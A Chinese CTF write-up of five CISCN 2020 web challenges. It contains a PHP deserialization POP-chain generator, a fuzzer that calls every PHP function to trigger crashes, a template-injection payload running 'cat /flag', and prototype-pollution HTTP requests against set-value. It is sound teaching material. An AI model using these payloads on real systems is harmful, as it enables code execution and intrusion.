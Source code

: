 categories:
- 比赛
tags:
- wp
- web
title: ciscn2020预选赛
---
# ciscn 2020 预选赛

## babyunserialize

和wmctf2020的webwebpayload相同



```php
<?php
namespace DB{
    abstract class Cursor  implements \IteratorAggregate {}
}


namespace DB\SQL{
    class Mapper extends \DB\Cursor{
        protected
            $props=["quotekey"=>"phpinfo"],
            $adhoc=[-1=>["expr"=>""]],
            $db;
        function offsetExists($offset){}
        function offsetGet($offset){}
        function offsetSet($offset, $value){}
        function offsetUnset($offset){}
        function getIterator(){}
        function __construct($val){
            $this->db = $val;
        }
    }
}
namespace CLI{
    class Agent {
        protected
            $server="";
        public $events;
        public function __construct(){
            $this->events=["disconnect"=>array(new \DB\SQL\Mapper(new \DB\SQL\Mapper("")),"find")];
            $this->server=&$this;


        }
    };
    class WS{}
}
namespace {
    echo urlencode(serialize(array(new \CLI\WS(),new \CLI\Agent())));
}
```



## easyphp

阅读代码我们发现:`if(!pcntl_wifexited($status)){phpinfo();}`，及fork的子进程报错就会执行phpinfo，而phpinfo里面通常包含敏感信息，和一些对我们题目有帮助的信息。

fork子进程执行的代码是：

```php
if(isset($_GET['a'])&&is_string($_GET['a'])&&!preg_match("/[:\\\\]|exec|pcntl/i",$_GET['a'])){
            call_user_func_array($_GET['a'],[$_GET['b'],false,true]);
```

而这里调用了非常敏感的call_user_func_array，所以无论是想让子进程报错还是直接执行代码这里都是非常好的选择。因此我们先要写个fuzz脚本：

```php
<?php

    $payloads=[
        "ls",//shell命令执行测试
        "index.php",//读取文件测试
        "asdfasldfjaklsdfjl.php",//创建文件/文件夹测试
        "echo 123;"//php命令执行测试
    ];
    $str=file_get_contents("fatalerr.log");
    if(!$str){
        $str="[]";
    }
    $fatalerror=eval("return ".$str.";");
    function show_result($func,$r,$v){
        if($r==NULL){
        }
        try{
            echo "$func($v,false,true) return value:";
            var_dump($r);
            echo "<br />";
        }catch(Exception $e){}
    }

    function brute_func($a){
        global $payloads;
        global $fatalerror;
        
        foreach($a as $val){
            
            if(is_array($val)){
                brute_func($val);
                continue;
            }
            
            if(in_array($val,$fatalerror)){
                continue;
            }
            array_push($fatalerror,$val);
            file_put_contents("fatalerr.log",var_export($fatalerror,TRUE));
            foreach($payloads as $v){
                $r=NULL;
                
                $r=call_user_func_array($val,[$v,false,true]);
                show_result($val,$r,$v);
                
            }
            array_pop($fatalerror);
            
        }
    };
    $arr=get_defined_functions();
    brute_func($arr);
?>
```



多次执行发现：

```php
stream_socket_server
exec
stream_socket_client
```

这三个函数会引起segment_fault 且 exec虽然会引起segment  fault但是仍然执行了代码

但是这里只需要segment_fault,所以访问`?a=stream_socket_server&b=`拿到flag



## rceme



注意到有个eval只要绕过限制就可以执行命令了

很简单利用字符串拼接绕过

`{if:+('base64_deco'.'d'.'e')('c3lzdGVt')('cat+/flag')}{end+if}`



## easytrick

队里的师傅做出来的,dbq，我太菜了

```php
<?php
class trick{
    public $trick1;
    public $trick2;
}


$t = new trick;
$t->trick1 = "INF";
$t->trick2 = 1e1111;
echo serialize($t);

```

## littlegame

```
λ npm audit

                       === npm audit security report ===

# Run  npm update set-value --depth 1  to resolve 1 vulnerability

  High            Prototype Pollution

  Package         set-value

  Dependency of   set-value

  Path            set-value

  More info       https://npmjs.com/advisories/1012



found 1 high severity vulnerability in 61 scanned packages
  run `npm audit fix` to fix 1 of them.
```

原型链污染，poc地址：
https://snyk.io/vuln/SNYK-JS-SETVALUE-450213

- 先访问一次`/SpawnPoint`，拿个sessionid
- 然后访问`/Privilege`污染原型链（用`constructor.prototype`或者`__proto__`均可）
- 最后访问`/DeveloperControlPanel`拿flag

```
POST /Privilege HTTP/1.1
Host: host
Content-Type: application/x-www-form-urlencoded
Cookie: session=yoursession

NewAttributeValue=abc&NewAttributeKey=__proto__.password4

POST /DeveloperControlPanel HTTP/1.1
Host: host
Content-Type: application/x-www-form-urlencoded
Cookie: session=yoursession

key=password4&password=abc
```